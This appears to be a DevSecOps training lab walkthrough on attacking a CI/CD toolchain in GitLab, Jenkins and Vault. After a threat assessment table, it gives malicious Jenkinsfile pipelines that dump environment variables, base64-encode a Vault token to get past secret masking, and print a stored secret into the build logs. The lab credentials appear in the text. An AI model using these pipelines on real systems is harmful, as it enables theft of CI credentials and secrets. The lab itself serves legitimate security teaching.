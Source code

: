 # LAB 1.1

## Attacking the DevOps toolchain

### Goals:

- Review the Rapid Risk Assessment of the DevOps Toolchain
- Make an unauthorized commit to the version control repository
- Create malicious Jenkins Builder and steal vault credentials
- Gain access to sensitive credentials

### DevOps Toolchain

Sign in to GitLab : student/NeverLookBack

Browse to docs/rapid-risk-assesment.md

For each Threat consider the vulnerabilities and the controls that can help the attacker to compromise the DevOps toolchain.

| Threat 1  |  Compromising a user’s VC credentials and creates an attacker Controlled SSH key |
| --- | --- |
| Vulnerabilities  | Guessing/Brute Force/ Weak Password/Malware/host |
| Security Controls | two factors authentication, password policy |

1- check if two factors authentication is enabled

2- Generate the md5 hash of the students SSH key account

```bash
ssh-keygen -l -E md5 -f .\hos_pub_key
```

| Threat 2 | Attacker makes an unauthorized commit to main branch, and trigger a new release that contain a backdoor or torjan |
| --- | --- |
| Vulnerabilities  | No branch protection |
| Security Controls | Apply branch protection, and implement a GitFlow  |

check if the DevOps project contain a protected branch

| Threat 3 | Attacker modifies high risk code without approval from the security team |
| --- | --- |
| Vulnerabilities  | No branch protection, no code owners |
| Security Controls | Apply branch protection, and implement a GitFlow , create the code owners file  |

Check if the account is connected to Jenkins via webhooks

Check the Jenkins file in Gitlab

| Threat 4 | CI/CD engine exposed to the internet |
| --- | --- |
| Vulnerabilities  | No hardening, no patching  |
| Security Controls | Jenkins not exposed to the internet, plugins are tested and patched |

Check if any of the Jenkins plugins need to be patched

analyze the project on Jenkins

| Threat 5 | Compromising Jenkins Injecting malicious code  |
| --- | --- |
| Vulnerabilities  | read access to a Jenkinsfile in the source code |
| Security Controls | Branch protection, GitFlow, separation of duties, codeowners |

Check Gitlab integration in Jenkins, which branch is used in the pipeline, how the steps of the pipeline are confugured?

| Threat 6 | Compromising a secret buy creating a malicious job in the CI/CD pipeline |
| --- | --- |
| Vulnerabilities  | No branch protection, no access management! |
| Security Controls | Branch protection, GitFlow, separation of duties, codeowners |

Check how jenkins communicate with vault in the plugin configuration and in the credential manager

sign-in to the vault server using yassine/NeverLookBack

try to read the seacret kv/**secrets/creds/yassine-secrets**

try to read the seacret kv/**secrets/creds/jenkins-secrets**

### Attack the DevOps Toolchain

Mission : Read the jenkins-secrets

Injecting code and run the pipeline

create an evil folder and create a Dockerfile

Change the Jenkins file with the code below 

```bash
pipeline {
    agent { 
        dockerfile {
            filename 'Dockerfile'
            dir 'evil'
            additionalBuildArgs '--tag h4kc/evil_image'
    } }
    stages {
        stage('Evil stage') {
            steps {
                sh 'env'
            }
        }
    }
}
```

push the code and  analyze the output, observe the images inside the host machine 

```bash
docker images
```

Now try the code below :

```bash
pipeline {
    agent { 
        dockerfile {
            filename 'Dockerfile'
            dir 'evil'
            additionalBuildArgs '--tag h4kc/evil_image'
        } 
    }
    
    stages {
        stage('Evil stage') {
            steps {
                script {
                    withCredentials([[$class: 'VaultTokenCredentialBinding', credentialsId: 'vault-jenkins-token-creds', vaultAddr: '', tokenVariable: 'VAULT_TOKEN']]) {
                        sh 'env'
                    }
                }
            }
        }
    }
}

```

check the output, what’s the value o the VAULT_TOKEN

Let’s bypass the security masking feature

```groovy
pipeline {
    agent { 
        dockerfile {
            filename 'Dockerfile'
            dir 'evil'
            additionalBuildArgs '--tag h4kc/evil_image'
        } 
    }
    
    stages {
        stage('Evil stage') {
            steps {
                script {
                    withCredentials([[$class: 'VaultTokenCredentialBinding', credentialsId: 'vault-jenkins-token-creds', vaultAddr: '', tokenVariable: 'VAULT_TOKEN']]) {
                        sh 'touch myfile.txt'
                        sh 'echo -n $VAULT_TOKEN | base64 >> myfile.txt'  
                    }
                     sh 'cat myfile.txt'
                }
            }
        }
    }
}

```

check now the output logs

can we read the jenkins-secret now ?

let’s try another path, what if we can’t access to vault ui 

```groovy
pipeline {
    agent { 
        dockerfile {
            filename 'Dockerfile'
            dir 'evil'
            additionalBuildArgs '--tag h4kc/evil_image'
        } 
    }
    
    stages {
        stage('Evil stage') {
            steps {
                script {
                    withVault([vaultSecrets: [[path: 'kv/secrets/creds/jenkins-secrets', secretValues: [[envVar: 'MY_SECRET', vaultKey: 'jenkin_secret_phrase']]]]]) {
                       sh 'echo $MY_SECRET > myfile.txt'
                    }
                     sh 'cat myfile.txt'
                }
            }
        }
    }
}

```

;)